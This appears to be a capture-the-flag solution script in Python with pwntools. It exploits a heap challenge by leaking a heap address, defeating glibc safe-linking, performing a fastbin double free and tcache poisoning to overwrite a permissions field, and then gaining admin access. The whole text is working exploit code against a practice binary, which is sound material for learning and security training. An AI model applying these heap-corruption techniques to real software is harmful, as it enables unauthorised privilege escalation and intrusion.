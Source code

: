 ```python
    io.sendlineafter(b"> ", b"5")


def reveal(ptr):
    mask = 0xfff << 36
    while mask:
        ptr ^= (ptr & mask) >> 12
        mask >>= 12
    return ptr


def mangle(pos, ptr):
    return (pos >> 12) ^ ptr


env = {}
io = start()

io.sendlineafter(b"username: ", cyclic(0x30))
io.sendlineafter(b"password: ", cyclic(0x30))

create(b"a" * 8)
create(b"b" * 8)
create(b"c" * 8)
delete(3)

show()
io.recvuntil(b"3: ")
heap_leak = u64(io.recvline().strip().ljust(8, b"\x00"))
log.info(f"{heap_leak=:#x}")
heap = heap_leak << 12
log.info(f"{heap=:#x}")
user_chunk = heap + 0x370

# Fill up tcachebins
payload = b"\n".join([cyclic(0x10)] * 7 + [b"quit"])
scream(payload)

# fastbin dup
delete(1)
delete(2)
delete(1)

# Empty out tcachebins
create(b"f" * 8)
create(b"f" * 8)
create(b"f" * 8)
create(b"f" * 8)
create(b"f" * 8)
create(b"f" * 8)
create(b"f" * 8)

# After tcachebins is empty, the fastbins are dumped into tcachebins
# which enable us to do tcache poisoning with the fastbin dup earlier
fd = mangle(heap + 0x4f0, user_chunk + 0x80)  # perms field
create(p64(fd))
create(b"f" * 8)
create(b"f" * 8)
create(p64(0) + p64(0x41))
admin()

io.interactive()
```